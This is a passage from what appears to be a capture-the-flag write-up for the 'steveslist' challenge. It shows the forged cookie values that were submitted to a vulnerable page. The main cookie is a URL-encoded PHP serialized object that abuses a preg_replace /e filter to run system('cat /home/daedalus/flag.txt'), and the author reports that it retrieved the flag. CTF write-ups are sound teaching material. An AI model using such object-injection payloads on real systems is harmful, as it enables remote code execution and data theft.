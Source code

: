 
the resulting cookies content for the submission to the vulnerable page were respectively:

	custom_settings_hash: 13c0bac46fcbd453c5052bce1d2f9ad6c88fe2bc

	vustom_settings: b:1%3b%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A4%3A%22test%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A4%3A%22test%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A7%3A%22%2Ftest%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A38%3A%22system%28%27cat+%2Fhome%2Fdaedalus%2Fflag.txt%27%29%3B%22%3B%7D%7D%7D

and they resulted in the flag being correctly retrieved

![](/images/2014/pico/steveslist/flag.png)

